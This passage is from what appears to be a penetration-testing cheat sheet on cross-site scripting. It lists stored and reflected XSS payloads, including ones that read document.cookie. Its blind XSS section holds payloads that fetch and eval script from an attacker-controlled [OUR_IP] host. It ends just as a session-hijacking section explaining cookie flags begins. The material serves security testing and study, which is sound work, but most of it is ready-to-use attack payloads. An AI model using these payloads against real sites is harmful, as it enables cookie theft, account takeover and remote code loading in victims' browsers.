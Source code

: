     # Text to save to the application.
    <script>alert("XSS")</script>
    
    <script>alert(document.cookie)</script>
    
    <script>alert(window.origin)</script>
    

#### 3.2.3 Reflected

In this case usually we will include the payload in a URL, the most common place for this are the
                search pages, we can see the example below:

    http://[SERVER_IP]:[PORT]/index.php?task=%3Cscript%3Ealert(document.cookie)%3C/script%3E
    

![Reflected XSS Payload](img/xss01.png)Reflected XSS Payload

![Reflected XSS Result](img/xss02.png)Reflected XSS Result

#### 3.2.4 Blind

A good way to test this is to see if we can retrieve files externally using the JavaScript code, we can
                use the payloads from PayloadsAllTheThings: [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS Injection#exploit-code-or-poc).
              

    <script src=http://[OUR_IP]></script>
    
    &#39;><script src=http://[OUR_IP]></script>
    
    <script>$.getScript("http://[OUR_IP]")</script>
    
    "><script src=http://[OUR_IP]></script>
    javascript:eval(&#39;var a=document.createElement(\&#39;script\&#39;);a.src=\&#39;http://OUR_IP\&#39;;document.body.appendChild(a)&#39;)
    <script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
    

#### 3.2.5 PrivEsc Using Session Hijacking

We need to make sure that the cookie is stored in the browser, we also need to consider that cookies
                can have two flags:

- *Secure:* only sends the cookie over an encrypted connection like HTTPS.
- *HttpOnly*: denies Javascript access to cookie; so we need that this options de disabled, you
                  can check this in the Developer Tools of the browser.

After verifying that the cookie could be steal by its flags and having a valid XSS field we can use one
                of the following payloads:

- **Option 1**
